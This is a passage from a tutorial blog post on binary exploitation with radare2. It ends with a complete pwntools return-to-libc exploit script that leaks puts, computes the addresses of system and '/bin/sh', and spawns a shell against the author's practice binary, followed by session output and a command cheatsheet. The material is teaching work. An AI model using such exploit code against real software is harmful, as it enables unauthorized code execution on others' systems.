#35d3c4;">search for matching ROP gadgets, semicolon-separated</span><br /> | /v<span style="color: #458ce2;">[1248] value</span>      <span style="color: #35d3c4;">look for an `cfg.bigendian` 32bit value</span><br /> | /V<span style="color: #458ce2;">[1248] min max</span>    <span style="color: #35d3c4;">look for an `cfg.bigendian` 32bit value in range</span><br /> | /w<span style="color: #458ce2;"> foo</span>              <span style="color: #35d3c4;">search for wide string &#8216;f\0o\0o\0&#8217;</span><br /> | /wi<span style="color: #458ce2;"> foo</span>             <span style="color: #35d3c4;">search for wide string ignoring case &#8216;f\0o\0o\0&#8217;</span><br /> | /x<span style="color: #458ce2;"> ff..33</span>           <span style="color: #35d3c4;">search for hex string ignoring some nibbles</span><br /> | /x<span style="color: #458ce2;"> ff0033</span>           <span style="color: #35d3c4;">search for hex string</span><br /> | /x<span style="color: #458ce2;"> ff43 ffd0</span>        <span style="color: #35d3c4;">search for hexpair with mask</span><br /> | /z<span style="color: #458ce2;"> min max</span>          <span style="color: #35d3c4;">search for strings of given size</span>
                            </td>
                          </tr>
                        </table>
                      </div>
                      
                      <p>
                        Amazing amount of possibilities. Notice this <code>/R</code> feature for searching ROP gadgets. Sadly, we are not going to cover ROP in this post but those of you who write exploits will love this tool.
                      </p>
                      
                      <p>
                        We don&#8217;t need something facny, we&#8217;ll use the simplest search. After that we&#8217;ll find where in this current execution <em>libc</em> was loaded at (<code>dmm</code>) and then we&#8217;ll calculate the offset of <code>"/bin/sh"</code>.
                      </p>
                      
                      <div style="overflow-x: auto; margin: 0 0 20px;">
                        <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                          <tr style="height: 19.8594px;">
                            <td style="height: 19.8594px;">
                              <span style="color: #468ee6;">[0x080483d0]></span> / /bin/sh<br /> Searching 7 bytes from 0x08048000 to 0xffd50000: 2f 62 69 6e 2f 73 68<br /> Searching 7 bytes in [0x8048000-0x8049000]<br /> hits: 0<br /> Searching 7 bytes in [0x8049000-0x804a000]<br /> hits: 0 <..truncated..> Searching 7 bytes in [0xf77aa000-0xf77ab000]<br /> hits: 0<br /> Searching 7 bytes in [0xffd2f000-0xffd50000]<br /> hits: 0<br /> 0xf7700768 hit1_0 .b/strtod_l.c-c<strong><span style="color: #00ccff;">/bin/sh</span></strong>exit 0canonica.
                            </td>
                          </tr>
                        </table>
                      </div>
                      
                      <p>
                        r2 found <code>"/bin/sh"</code> in the memory. Now let&#8217;s calculate its offset from <em>libc </em>base:
                      </p>
                      
                      <div style="overflow-x: auto; margin: 0 0 20px;">
                        <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                          <tr style="height: 19.8594px;">
                            <td style="height: 19.8594px;">
                              <span style="color: #468ee6;">[0x080483d0]></span> dmm~libc<br /> 0xf7599000 /usr/lib32/libc-2.25.so<br /> <span style="color: #468ee6;">[0x080483d0]></span> ?X 0xf7700768-0xf7599000<br /> 167768
                            </td>
                          </tr>
                        </table>
                      </div>
                      
                      <p>
                        We found that the offset of <code>"/bin/sh"</code> from the base of <em>libc</em> is 0x167768. Let&#8217;s fill it in our exploit and move to the last part.
                      </p>
                      
                      ```python
...

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768  

...
```

                    </div>
                    
                    <h3>
                      Spawning a shell
                    </h3>
                    
                    <p>
                      The second stage of the exploit is pretty straightforward. We will again use 140 bytes of padding, then we&#8217;ll call <code>system</code> with the address of <code>"/bin/sh"</code> as a parameter and then return to <code>exit</code>.
                    </p>
                    
                    ```diff
+---------------------+
|       Stage 2       |
+---------------------+
| padding (140 bytes) |
| system@libc         |
| exit@libc           |
| /bin/sh address     |
+---------------------+
```

                    
                    <p>
                      Remember that we returned to the entrypoint last time? That means that <code>scanf</code> is waiting for our input again. Now all we need to do is to chain these calls and send it to the program.
                    </p>
                    
                    <p>
                      Here&#8217;s the final script. As I mentioned earlier, you need to replace the offsets to match your version of <em>libc.</em>
                    </p>
                    
                    ```python
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
    
    # Calculate libc base
    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    exit_addr = libc_base  + offset_exit
    binsh_addr = libc_base + offset_str_bin_sh

    log.info("system is at: 0x%x" % system_addr)
    log.info("/bin/sh is at: 0x%x" % binsh_addr)
    log.info("exit is at: 0x%x" % exit_addr)

    # Build 2nd payload
    payload2  =  "A"*140
    ropchain2 =  p32(system_addr)
    ropchain2 += p32(exit_addr)
    # Optional: Fix disallowed character by scanf by using p32(binsh_addr+5)
    #           Then you'll execute system("sh")
    ropchain2 += p32(binsh_addr) 

    payload2 = payload2 + ropchain2
    p.sendline(payload2)

    log.success("Here comes the shell!")

    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()

```

                    
                    <p>
                      When running this exploit we will successfully spawn a shell:
                    </p>
                    
                    <div style="overflow-x: auto; margin: 0 0 20px;">
                      <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                        <tr style="height: 19.8594px;">
                          <td style="height: 19.8594px;">
                            $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 24410<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf75db710<br /> <span style="color: #00ccff;">[*]</span> libc base: 0xf75ce000<br /> <span style="color: #00ccff;">[*]</span> system is at: 0xf760a060<br /> <span style="color: #00ccff;">[*]</span> /bin/sh is at: 0xf7735768<br /> <span style="color: #00ccff;">[*]</span> exit is at: 0xf75fd1b0<br /> <span style="color: #00ccff;">[+]</span> Here comes the shell!<br /> <span style="color: #00ccff;">[*]</span> Switching to interactive mode:<br /> <span style="color: #cc99ff;">   </span><br /> <span style="color: #cc99ff;">$</span> whoami<br /> beet<br /> <span style="color: #cc99ff;">$</span> echo EOF<br /> EOF
                          </td>
                        </tr>
                      </table>
                    </div>
                    
                    <h2>
                      Epilogue
                    </h2>
                    
                    <p>
                      Here the second part of our journey with radare2 is coming to an end. We learned about radare2 exploitation features just in a nutshell. In the next parts we’ll learn more about radare2 capabilities including scripting and malware analysis. I’m aware that it’s hard, at first, to understand the power within radare2 or why you should put aside some of your old habits (<em>gdb-peda</em>) and get used working with radare2. Having radare2 in your toolbox is a very smart step whether you’re a reverse engineer, an exploit writer, a CTF player or just a security enthusiast.
                    </p>
                    
                    <p>
                      Above all I want to thank Pancake, the man behind radare2, for creating this amazing tool as libre and open, and to the amazing friends in the radare2 community that devote their time to help, improve and promote the framework.
                    </p>
                    
                    <p>
                      Please post comments or message me <a href="https://www.megabeets.net/about.html#contact">privately</a> if something is wrong, not accurate, needs further explanation or you simply don’t get it. Don’t hesitate to share your thoughts with me.
                    </p>
                    
                    <p>
                      <strong>Subscribe on the left if you want to get the next articles straight in your inbox.</strong>
                    </p>
                    
                    <div class="nf-post-footer">
                    </div>
                    
                    <h2>
                      Exploitation Cheatsheet
                    </h2>
                    
                    <p>
                      Here&#8217;s a list of the commands I mentioned in this post (and a little more). You can use it as a reference card.
                    </p>
                    
                    <h3>
                      Gathering information
                    </h3>
                    
                    <ul>
                      <li>
                        <code>$ rabin2 -I ./program</code> &#8212; Binary info (same as <code>i</code> from radare2 shell)
                      </li>
                      <li>
                        <code>ii [q]</code> &#8211; Imports
                      </li>
                      <li>
                        <code>?v sym.imp.func_name</code> &#8212; Get address of func_name@PLT
                      </li>
                      <li>
                        <code>?v reloc.func_name</code> &#8212; Get address of func_name@GOT
                      </li>
                      <li>
                        <code>ie [q]</code> &#8212; Get address of Entrypoint
                      </li>
                      <li>
                        <code>iS</code> &#8212; Show sections with permissions (r/x/w)
                      </li>
                      <li>
                        <code>i~canary</code> &#8212; Check canaries
                      </li>
                      <li>
                        <code>i~pic</code> &#8212; Check if Position Independent Code
                      </li>
                      <li>
                        <code>i~nx</code> &#8212; Check if compiled with NX
                      </li>
                    </ul>
                    
                    <h3>
                      Memory
                    </h3>
                    
                    <ul>
                      <li>
                        <code>dm</code> &#8212; Show memory maps
                      </li>
                      <li>
                        <code>dmm</code> &#8212; List modules (libraries, binaries loaded in memory)
                      </li>
                      <li>
                        <code>dmi [addr|libname] [symname]</code> &#8212; List symbols of target lib
                      </li>
                    </ul>
                    
                    <h3>
                      Searching
                    </h3>
                    
                    <ul>
                      <li>
                        <code>e search.*</code> &#8212; Edit searching configuration
                      </li>
                      <li>
                        <code>/?</code> &#8212; List search subcommands
                      </li>
                      <li>
                        <code>/ string</code> &#8212; Search string in memory/binary
                      </li>
                      <li>
                        <code>/R [?]</code> &#8212; Search for ROP gadgets
                      </li>
                      <li>
                        <code>/R/</code> &#8212; Search for ROP gadgets with a regular expressions
                      </li>
                    </ul>
                    
                    <div style="overflow-x: auto; margin: 0 0 20px;">
                      <h3>
                        Debugging
                      </h3>
                      
                      <ul>
                        <li>
                          <code>dc</code> &#8212; Continue execution
                        </li>
                        <li>
                          <code>dcu addr</code> &#8211; Continue execution until address
                        </li>
                        <li>
                          <code>dcr</code> &#8212; Continue until ret (uses step over)
                        </li>
                        <li>
                          <code>dbt [?]</code> &#8212; Display backtrace based on <em>dbg.btdepth</em> and <em>dbg.btalgo</em>
                        </li>
                        <li>
                          <code>doo [args]</code> &#8212; Reopen in debugger mode with args
                        </li>
                        <li>
                          <code>ds</code> &#8212; Step one instruction
                        </li>
                        <li>
                          <code>dso</code> &#8212; Step over
                        </li>
                      </ul>
                      
                      <h3>
                        Visual Modes
                      </h3>
                      
                      <ul>
                        <li>
                          <code>pdf @ addr</code> &#8212; Print the assembly of a function in the given offset
                        </li>
                        <li>
                          <code>V</code> &#8212; Visual mode, use <code>p</code>/<code>P</code> to toggle between different modes
                        </li>
                        <li>
                          <code>VV</code> &#8212; Visual Graph mode, navigating through ASCII graphs
                        </li>
                        <li>
                          <code>V!</code> &#8212; Visual panels mode. Very useful for exploitation
                        </li>
                      </ul>
                      
                      <p>
                        Check <a href="http://radare.today/posts/using-radare2/">this post</a> on radare&#8217;s blog to see more commands that might be helpful.
                      </p>
                    </div>
                    
                    <div class="nf-post-footer">
                      <p style="text-align: right">
                        <a href="https://www.megabeets.net/about.html#vegan">Eat Veggies</a>
                      </p>
                    </div>

 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.n./r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.n./mainsym.png
 [16]: https://www.megabeets.n./beetsym.png
 [17]: https://www.megabeets.n./tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode